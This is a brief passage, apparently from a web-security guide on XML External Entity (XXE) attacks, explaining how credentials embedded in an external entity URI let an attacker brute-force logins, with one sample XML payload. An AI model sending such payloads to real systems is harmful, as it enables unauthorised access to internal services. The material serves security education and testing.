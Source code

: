 ##### Brute Forcing

**Once an attacker confirms that it is possible to perform a port scan, performing a brute force attack is a matter of embedding the `username` and `password` as part of the URI scheme (http, ftp, etc).** For example, see the following example:

```xml
<!DOCTYPE root [
 <!ENTITY user SYSTEM "http://username:password@example.com:8080">
]>
<root>&user;</root>
```
